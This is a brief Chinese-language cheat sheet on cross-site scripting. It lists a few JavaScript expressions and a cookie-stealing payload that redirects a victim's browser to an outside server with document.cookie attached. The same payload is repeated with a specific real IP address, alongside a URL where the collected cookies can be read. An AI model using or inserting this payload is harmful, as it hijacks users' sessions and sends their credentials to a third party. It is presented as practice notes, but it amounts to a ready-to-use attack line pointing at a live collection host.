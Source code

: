# XSS远程执行漏洞

## 常用js语句
````

document.cookie				用于js获取当前网页的cookie值
window.location.href			 用于获取当前页面地址链接
window.location.href='www.baidu.com'	  用于相当于跳转地址

````

常用playload：

````
<script>window.location.href='http://[ip]/xss.php?cookie='+document.cookie</script>
````
     




## 我直接买了一个服务器并且开放了读写权限可以拿来实验XSS

````
相关的ip
<script>window.location.href='http://106.53.207.220/xss.php?cookie='+document.cookie</script>


回显请看
http://106.53.207.220/cookie.txt
````

